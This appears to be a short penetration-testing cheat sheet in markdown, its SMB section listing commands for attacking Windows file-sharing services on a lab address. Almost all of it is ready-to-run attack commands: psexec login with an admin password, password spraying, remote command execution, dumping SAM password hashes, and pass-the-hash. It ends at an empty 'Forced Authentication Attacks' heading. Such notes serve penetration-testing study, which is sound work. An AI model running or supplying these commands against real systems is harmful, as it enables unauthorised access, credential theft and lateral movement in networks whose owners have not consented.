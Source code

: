 # Attacking common services
- [SMB](#smb)
## SMB

- **Impacket PsExec**
    - To connect to a remote machine with a local administrator account, using impacket-psexec, you can use the following command: `impacket-psexec administrator:'Password123!'@10.10.110.17`

- **CrackMapExec**
    - Password Spraying: `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth`
    - Execute Commands: `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`
    - Extract Hashes from SAM Database: `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`
    - Pass-the-Hash (PtH): `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`


> [!NOTE]
> Using the `--continue-on-success` flag, It will continue spraying even after a valid password is found.
> If we are targeting a non-domain joined computer, we will need to use the option `--local-auth`.

### Forced Authentication Attacks
